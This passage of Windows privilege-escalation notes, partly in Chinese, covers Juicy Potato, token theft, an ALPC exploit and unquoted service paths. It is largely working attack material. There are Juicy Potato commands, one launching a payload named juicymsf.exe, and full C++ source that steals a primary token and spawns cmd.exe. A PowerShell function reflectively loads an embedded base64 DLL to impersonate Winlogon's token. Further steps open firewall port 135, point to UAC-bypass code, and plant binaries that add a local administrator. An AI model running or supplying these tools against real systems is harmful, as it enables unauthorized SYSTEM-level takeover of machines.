>   由服务控制管理器启动的服务

>   由组件对象模型 (COM) 基础结构启动的并配置为在特定帐户下运行的COM服务器

针对提权的话，主要是第三类用户，常见的为LocalService用户，例如IIS和者sqlserver的用户

枚举可用COM对象方法

1.获得可用CLSID的列表

使用GetCLSID.ps1

https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1

使用时同级目录下需要包含支持文件.\\utils\\Join-Object.ps1

执行成功后生成文件CLSID.list和CLSID.csv

2.使用批处理调用juicypotato.exe逐个测试CLSID

https://github.com/ohpe/juicy-potato/blob/master/Test/test_clsid.bat

juicypotato.exe -z -l !port! -c %%i \>\> result.log

\-z表示测试模式，只验证Token，不使用Token创建进程

\-l为端口，起始为1000，每次循环加1

\-c为从文件CLSID.list获得的CLSID

Juicy Potato已经测试了如下Windows系统：

>   Windows 7 Enterprise

>   Windows 8.1 Enterprise

>   Windows 10 Enterprise

>   Windows 10 Professional

>   Windows Server 2008 R2 Enterprise

>   Windows Server 2012 Datacenter

>   Windows Server 2016 Standard

Server2012下执行GetCLSID.ps1时会报错

出错位置.\\utils\\Join-Object.ps1

枚举所有满足条件的CLSID:

New-PSDrive -Name HKCR -PSProvider Registry -Root HKEY_CLASSES_ROOT \| Out-Null

\$CLSID = Get-ItemProperty HKCR:\\clsid\\\* \| select-object AppID,\@{N='CLSID';
E={\$_.pschildname}} \| where-object {\$_.appid -ne \$null}

foreach(\$a in \$CLSID)

{

Write-Host \$a.CLSID

}

实验:

1.权限检查:

如果开启SeImpersonate权限，juicypotato的参数可以使用-t t

如果开启SeAssignPrimaryToken权限，juicypotato的参数可以使用-t u

如果均开启，可以选择-t \*

如果均未开启，那么无法提权

2. 查看RPC默认端口是否为135

如果被修改(例如为111)，juicypotato的参数可以使用-n 111

如果系统禁用了RPC，并不是一定无法提权，需要满足如下条件：

找到另一系统，能够以当前用户的权限进行远程RPC登录，此时juicypotato的参数可以使用-k
\<ip\>

例如Win7、WIn8系统，默认配置下，允许135端口的入站规则即可进行远程RPC登录

添加防火墙规则允许135端口入站的命令如下：

netsh advfirewall firewall add rule name="135" protocol=TCP dir=in localport=135
action=allow

也可选择将防火墙关闭，可参考绕过UAC关闭防火墙的代码:

https://github.com/3gstudent/Use-COM-objects-to-bypass-UAC/blob/master/DisableFirewall.cpp

3.根据操作系统选择可用的CLSID

https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md

4.选择一个系统未占用的端口作为监听

均开启SeImpersonate、SeAssignPrimaryToken权限创建进程，监听端口1111，使用的CLSID为{8BC3F05E-D86B-11D0-A075-00C04FB68820}

JuicyPotato.exe -t \* -p c:\\\\windows\\\\system32\\\\cmd.exe -l 1111 -c
{8BC3F05E-D86B-11D0-A075-00C04FB68820}

JuicyPotato.exe -t \* -p c:\\\\inetpub\\\\wwwroot\\\\juicymsf.exe -l 1111 -c
{8BC3F05E-D86B-11D0-A075-00C04FB68820}

**PrimaryTokenTheft.cpp:**

Steal a primary token and spawn cmd.exe using the stolen token.

\#include "pch.h"

\#include \<windows.h\>

\#include \<iostream\>

\#include \<Lmcons.h\>

BOOL SetPrivilege(

HANDLE hToken, // access token handle

LPCTSTR lpszPrivilege, // name of privilege to enable/disable

BOOL bEnablePrivilege // to enable or disable privilege

)

{

TOKEN_PRIVILEGES tp;

LUID luid;

if (!LookupPrivilegeValue(

NULL, // lookup privilege on local system

lpszPrivilege, // privilege to lookup

&luid)) // receives LUID of privilege

{

printf("[-] LookupPrivilegeValue error: %u\\n", GetLastError());

return FALSE;

}

tp.PrivilegeCount = 1;

tp.Privileges[0].Luid = luid;

if (bEnablePrivilege)

tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

else

tp.Privileges[0].Attributes = 0;

// Enable the privilege or disable all privileges.

if (!AdjustTokenPrivileges(

hToken,

FALSE,

&tp,

sizeof(TOKEN_PRIVILEGES),

(PTOKEN_PRIVILEGES)NULL,

(PDWORD)NULL))

{

printf("[-] AdjustTokenPrivileges error: %u\\n", GetLastError());

return FALSE;

}

if (GetLastError() == ERROR_NOT_ALL_ASSIGNED)

{

printf("[-] The token does not have the specified privilege. \\n");

return FALSE;

}

return TRUE;

}

std::string get_username()

{

TCHAR username[UNLEN + 1];

DWORD username_len = UNLEN + 1;

GetUserName(username, \&username_len);

std::wstring username_w(username);

std::string username_s(username_w.begin(), username_w.end());

return username_s;

}

int main(int argc, char\*\* argv) {

// Print whoami to compare to thread later

printf("[+] Current user is: %s\\n", (get_username()).c_str());

// Grab PID from command line argument

char \*pid_c = argv[1];

DWORD PID_TO_IMPERSONATE = atoi(pid_c);

// Initialize variables and structures

HANDLE tokenHandle = NULL;

HANDLE duplicateTokenHandle = NULL;

STARTUPINFO startupInfo;

PROCESS_INFORMATION processInformation;

ZeroMemory(&startupInfo, sizeof(STARTUPINFO));

ZeroMemory(&processInformation, sizeof(PROCESS_INFORMATION));

startupInfo.cb = sizeof(STARTUPINFO);

// Add SE debug privilege

HANDLE currentTokenHandle = NULL;

BOOL getCurrentToken = OpenProcessToken(GetCurrentProcess(),
TOKEN_ADJUST_PRIVILEGES, \&currentTokenHandle);

if (SetPrivilege(currentTokenHandle, L"SeDebugPrivilege", TRUE))

{

printf("[+] SeDebugPrivilege enabled!\\n");

}

// Call OpenProcess(), print return code and error code

HANDLE processHandle = OpenProcess(PROCESS_QUERY_INFORMATION, true,
PID_TO_IMPERSONATE);

if (GetLastError() == NULL)

printf("[+] OpenProcess() success!\\n");

else

{

printf("[-] OpenProcess() Return Code: %i\\n", processHandle);

printf("[-] OpenProcess() Error: %i\\n", GetLastError());

}

// Call OpenProcessToken(), print return code and error code

BOOL getToken = OpenProcessToken(processHandle, TOKEN_DUPLICATE \|
TOKEN_ASSIGN_PRIMARY \| TOKEN_QUERY, \&tokenHandle);

if (GetLastError() == NULL)

printf("[+] OpenProcessToken() success!\\n");

else

{

printf("[-] OpenProcessToken() Return Code: %i\\n", getToken);

printf("[-] OpenProcessToken() Error: %i\\n", GetLastError());

}

// Impersonate user in a thread

BOOL impersonateUser = ImpersonateLoggedOnUser(tokenHandle);

if (GetLastError() == NULL)

{

printf("[+] ImpersonatedLoggedOnUser() success!\\n");

printf("[+] Current user is: %s\\n", (get_username()).c_str());

printf("[+] Reverting thread to original user context\\n");

RevertToSelf();

}

else

{

printf("[-] ImpersonatedLoggedOnUser() Return Code: %i\\n", getToken);

printf("[-] ImpersonatedLoggedOnUser() Error: %i\\n", GetLastError());

}

// Call DuplicateTokenEx(), print return code and error code

BOOL duplicateToken = DuplicateTokenEx(tokenHandle, TOKEN_ADJUST_DEFAULT \|
TOKEN_ADJUST_SESSIONID \| TOKEN_QUERY \| TOKEN_DUPLICATE \|
TOKEN_ASSIGN_PRIMARY, NULL, SecurityImpersonation, TokenPrimary,
\&duplicateTokenHandle);

if (GetLastError() == NULL)

printf("[+] DuplicateTokenEx() success!\\n");

else

{

printf("[-] DuplicateTokenEx() Return Code: %i\\n", duplicateToken);

printf("[-] DupicateTokenEx() Error: %i\\n", GetLastError());

}

// Call CreateProcessWithTokenW(), print return code and error code

BOOL createProcess = CreateProcessWithTokenW(duplicateTokenHandle,
LOGON_WITH_PROFILE, L"C:\\\\Windows\\\\System32\\\\cmd.exe", NULL, 0, NULL,
NULL, &startupInfo, \&processInformation);

if (GetLastError() == NULL)

printf("[+] Process spawned!\\n");

else

{

printf("[-] CreateProcessWithTokenW Return Code: %i\\n", createProcess);

printf("[-] CreateProcessWithTokenW Error: %i\\n", GetLastError());

}

return 0;

}

**get system using Impersonation Tokens:**

function Get-System

{

if([System.Threading.Thread]::CurrentThread.GetApartmentState() -ne 'STA')

{

Write-Output "This powershell shell is not in STA mode!";

return ;

}

if(-not
([System.Management.Automation.PSTypeName]"zc00l.ImpersonationToken").Type) {

[Reflection.Assembly]::Load([Convert]::FromBase64String("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nACfAAkAoACkAAkApACpAAkAqACuAAkArACzAAkAsAC4AC4ACwApAS4AEwAyAS4AGwBRAS4AIwBaAS4AKwB1AS4AMwB1AS4AOwB1AS4AQwBaAS4ASwB7AS4AUwB1AS4AWwB1AS4AYwCTAS4AawC9AS4AcwDKAeMAewByABMAwAAlAMAAKQDAADQAvQA8AL0AGgAiADwAXgAcBSkFAAEDALkEAQBAAQUAYAcCAEABCQC0BQEAAAELAHMFAQBAAQ0AZAUBAEABDwDUBgEAQAERAGwHAgBAARMA+wQBAASAAAABAAAAAAAAAAAAAAAAANsAAAAEAAAAAAAAAAAAAABpACkCAAAAAAQAAAAAAAAAAAAAAGkAWAUAAAAAAwACAAQAAgAFAAIABgACAAcAAgAnAFkAAAAAPE1vZHVsZT4AVE9LRU5fUkVBRABTVEFOREFSRF9SSUdIVFNfUkVBRABTRV9QUklWSUxFR0VfRU5BQkxFRABTVEFOREFSRF9SSUdIVFNfUkVRVUlSRUQAU0VfUFJJVklMRUdFX1JFTU9WRUQAVE9LRU5fQURKVVNUX1NFU1NJT05JRABMVUlEAFRPS0VOX1FVRVJZX1NPVVJDRQBUT0tFTl9EVVBMSUNBVEUAVE9LRU5fSU1QRVJTT05BVEUAU0VDVVJJVFlfSU1QRVJTT05BVElPTl9MRVZFTABJbXBlcnNvbmF0aW9uVG9rZW5ETEwAUFJPQ0VTU19RVUVSWV9JTkZPUk1BVElPTgBUT0tFTl9QUklWSUxFR0VTAFRPS0VOX0FESlVTVF9QUklWSUxFR0VTAExVSURfQU5EX0FUVFJJQlVURVMAVE9LRU5fQURKVVNUX0dST1VQUwBUT0tFTl9BTExfQUNDRVNTAFNFX1BSSVZJTEVHRV9VU0VEX0ZPUl9BQ0NFU1MAUFJJVklMRUdFX1NFVABUT0tFTl9BREpVU1RfREVGQVVMVABTRV9QUklWSUxFR0VfRU5BQkxFRF9CWV9ERUZBVUxUAEFOWVNJWkVfQVJSQVkAVE9LRU5fQVNTSUdOX1BSSU1BUlkAUFJJVklMRUdFX1NFVF9BTExfTkVDRVNTQVJZAFRPS0VOX1FVRVJZAHZhbHVlX18AU2V0UXVvdGEAbXNjb3JsaWIAcHJvYwBnZXRfSWQAcHJvY2Vzc0lkAFZpcnR1YWxNZW1vcnlSZWFkAENyZWF0ZVRocmVhZABJc1ByaXZpbGVnZUVuYWJsZWQAcGlkAGxwTHVpZABFbmFibGVQcml2aWxlZ2UARHVwbGljYXRlSGFuZGxlAER1cGxpY2F0ZVRva2VuSGFuZGxlAEV4aXN0aW5nVG9rZW5IYW5kbGUAcEhhbmRsZQBQcm9jZXNzSGFuZGxlAGJJbmhlcml0SGFuZGxlAGxwU3lzdGVtTmFtZQBscE5hbWUAVmFsdWVUeXBlAFRlcm1pbmF0ZQBQcmV2aW91c1N0YXRlAE5ld1N0YXRlAFZpcnR1YWxNZW1vcnlXcml0ZQBHdWlkQXR0cmlidXRlAERlYnVnZ2FibGVBdHRyaWJ1dGUAQ29tVmlzaWJsZUF0dHJpYnV0ZQBBc3NlbWJseVRpdGxlQXR0cmlidXRlAEFzc2VtYmx5VHJhZGVtYXJrQXR0cmlidXRlAFRhcmdldEZyYW1ld29ya0F0dHJpYnV0ZQBBc3NlbWJseUZpbGVWZXJzaW9uQXR0cmlidXRlAEFzc2VtYmx5Q29uZmlndXJhdGlvbkF0dHJpYnV0ZQBBc3NlbWJseURlc2NyaXB0aW9uQXR0cmlidXRlAEZsYWdzQXR0cmlidXRlAENvbXBpbGF0aW9uUmVsYXhhdGlvbnNBdHRyaWJ1dGUAQXNzZW1ibHlQcm9kdWN0QXR0cmlidXRlAEFzc2VtYmx5Q29weXJpZ2h0QXR0cmlidXRlAEFzc2VtYmx5Q29tcGFueUF0dHJpYnV0ZQBSdW50aW1lQ29tcGF0aWJpbGl0eUF0dHJpYnV0ZQBMb29rdXBQcml2aWxlZ2VWYWx1ZQBTeW5jaHJvbml6ZQBTaXplT2YAU3lzdGVtLlJ1bnRpbWUuVmVyc2lvbmluZwBQcml2aWxlZ2VDaGVjawB6YzAwbABNYXJzaGFsAEFsbABhZHZhcGkzMi5kbGwAa2VybmVsMzIuZGxsAEltcGVyc29uYXRpb25Ub2tlbkRMTC5kbGwAQ29udHJvbABTeXN0ZW0ARW51bQBTZXRUaHJlYWRUb2tlbgBEdXBsaWNhdGVUb2tlbgBoVG9rZW4ASW1wZXJzb25hdGlvblRva2VuAEltcGVyc29uYXRlUHJvY2Vzc1Rva2VuAE9wZW5Qcm9jZXNzVG9rZW4AQ2xpZW50VG9rZW4AUXVlcnlMaW1pdGVkSW5mb3JtYXRpb24AU2V0SW5mb3JtYXRpb24AUXVlcnlJbmZvcm1hdGlvbgBWaXJ0dWFsTWVtb3J5T3BlcmF0aW9uAFN5c3RlbS5SZWZsZWN0aW9uAFplcm8ALmN0b3IALmNjdG9yAEludFB0cgBTeXN0ZW0uRGlhZ25vc3RpY3MAU3lzdGVtLlJ1bnRpbWUuSW50ZXJvcFNlcnZpY2VzAFN5c3RlbS5SdW50aW1lLkNvbXBpbGVyU2VydmljZXMARGVidWdnaW5nTW9kZXMAUmVxdWlyZWRQcml2aWxlZ2VzAERpc2FibGVBbGxQcml2aWxlZ2VzAEFkanVzdFRva2VuUHJpdmlsZWdlcwBBdHRyaWJ1dGVzAFJldHVybkxlbmd0aEluQnl0ZXMAQnVmZmVyTGVuZ3RoSW5CeXRlcwBQcm9jZXNzQWNjZXNzRmxhZ3MAZmxhZ3MARGVzaXJlZEFjY2VzcwBwcm9jZXNzQWNjZXNzAENyZWF0ZVByb2Nlc3MAT3BlblByb2Nlc3MAR2V0Q3VycmVudFByb2Nlc3MAT2JqZWN0AHBmUmVzdWx0AFByaXZpbGVnZUNvdW50AEhpZ2hQYXJ0AExvd1BhcnQAb3BfRXF1YWxpdHkAAAAAAAAANMB5wx4YykSS6Z0DEn72xgAEIAEBCAMgAAEFIAEBEREEIAEBDgQgAQECAwcBGAMgAAgQBwsCERAYGBEYAgICAhEYAgIGGAUAAgIYGBUHDREQGBgRDBEUERQJAgICEQwRFAIGEAEBCB4ABAoBERQKBwgYGBgCAgICAgi3elxWGTTgiQQBAAAABAIAAAAEBAAAAAQAAACABP8PHwAECAAAAAQQAAAABCAAAAAEQAAAAASAAAAABAABAAAEAAIAAAQABAAABAAQAAAEAAAQAAIeAQECAgYIAgYJAwYREAQGHREMAwYRHAgAAwIODhAREAcAAxgRHAIIBwACGBJFERwHAAMCGAkQGAcAAwIYCBAYDgAGAhgCEBEUCRARFBAJAwAAGAkAAwIYEBEYEAIEAAECDgQAAQIIAwAAAQgBAAgAAAAAAB4BAAEAVAIWV3JhcE5vbkV4Y2VwdGlvblRocm93cwEIAQAHAQAAAAAaAQAVSW1wZXJzb25hdGlvblRva2VuRExMAAAFAQAAAAAXAQASQ29weXJpZ2h0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AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"))
\| Out-Null

Write-Output "DLL has been reflected."

}

if(-not [zc00l.ImpersonationToken]::ImpersonateProcessToken((Get-Process
Winlogon).Id[0]))

{

Write-Output "Could not Impersonate Token! Maybe you are not Local Admin?";

return;

}

Write-Output "We are: \$([Environment]::Username)"

}

**ALPC exploit:**

Utilizing the ALPC Flaw in combiniation with Diagnostics Hub as found in Server
2016 and Windows 10.

Project seeks to have a stable / reliable method for ALPC exploit originally
disclosed by Sandbox Escaper.

Attempts to clean up itself after loading the DLL.

探索原因:

**ATT&CK: Privilege Escalation-6).unquoted service path**

In Windows environments when a service is started the system is attempting to
find the location of the executable in order to successfully launch the service.
If the executable is enclosed in quote tags “” then the system will know where
to find it. However if the path of where the application binary is located
doesn’t contain any quotes then Windows will try to find it and execute it
inside every folder of this path until they reach the executable.

This can be abused in order to elevate privileges if the service is running
under SYSTEM privileges.

Method 1 – Manual Exploitation

The first step is to try and discover all the services that are running on the
target host and identify those that are not enclosed inside quotes.

The next step is to try to identify the level of privilege that this service is
running. This can be identified easily:

Since the service is running as SYSTEM and is not enclosed in quote tags the
final check is to determine if standard users have “Write” access in the
directory of where the service is located or in any previous directory like C:\\
or C:\\Program Files (x86)\\. Folder permissions can be identified with the use
of a Windows built-in tool called icacls (Integrity Control Access Control
Lists):

The users in the Lenovo folder have the ability to write content which means
that it is possible to generate a malicious binary and plant this executable
inside that folder. In that way when the service will be restarted, Windows will
launch this executable instead of the legitimate one by giving SYSTEM privileges
to the user.

Metasploit can be used in order to generate the binary that needs to be dropped
into the target system.

情况一:

情况二:

meterpreter会话存在30s后死掉

应对措施

Method 2 – Metasploit

Metasploit Framework provides a module that can automatically check the target
system for any vulnerable services, generate the payload, drop the binary into
the target folder that has Write access, restart the service and remove the
binary as soon as the payload is executed and a session is created.

In order to be able to use this module an existing Meterpreter session is
needed.

Method 3 – PowerSploit

PowerSploit can be used as well as a tool for discovery and exploitation of this
issue as except of the script that it can identify all the services running on
the system without quote tags it can also generate a binary that will add a user
into the local administrator group.

As it can be seen above the Get-ServiceUnquoted script not only discovered the
service but it does all the other necessary checks as well like: identification
of the path that users have Write access, discovery of the privileges that the
service is running (which in this case is LocalSystem) and determination of
whether a user can restart the service. Additionally it gives the PowerShell
function to generate the binary in order to exploit this issue.

By executing the Write-ServiceBinary function PowerSploit will generate an
executable into the specified path with a simple payload that it will try to add
the user “john” into the local administrators group when the service will be
restarted.

总结:

In nowadays the majority of the applications are enclosed quote tags. However
